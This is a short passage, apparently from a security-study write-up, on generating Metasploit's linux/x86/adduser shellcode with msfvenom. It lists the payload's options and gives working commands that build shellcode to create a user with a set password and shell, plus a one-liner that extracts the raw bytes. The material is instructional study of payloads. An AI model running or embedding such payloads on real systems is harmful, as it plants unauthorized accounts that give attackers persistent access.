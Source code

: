![Screenshot](../images/adduser/2.png)


There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

